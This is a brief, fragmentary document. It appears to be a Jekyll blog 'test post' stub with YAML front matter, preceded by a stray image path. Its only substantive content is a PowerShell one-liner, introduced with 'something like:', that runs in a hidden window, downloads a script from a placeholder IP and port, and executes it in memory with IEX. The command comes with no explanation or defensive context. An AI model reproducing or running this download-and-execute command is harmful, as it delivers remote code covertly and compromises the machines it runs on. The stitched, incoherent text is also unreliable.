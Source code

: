 ```yaml
---
layout: post
title: "Lillian Warner, test post"
date: 2017-06-23
---
```

something like:
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://<ip>:<port>/<file>'))"
